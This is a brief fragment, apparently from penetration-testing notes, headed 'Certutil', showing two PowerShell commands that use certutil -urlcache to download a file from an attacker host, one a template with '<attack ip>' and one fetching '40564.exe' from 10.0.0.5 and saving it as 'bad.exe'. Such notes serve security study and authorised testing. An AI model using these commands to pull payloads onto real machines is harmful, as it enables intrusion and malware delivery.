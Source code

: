 -- -
#### Certutil
```powershell
# I don't think the -f is necessary
certutil -urlcache http://<attack ip>/<filepath> <output file>
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```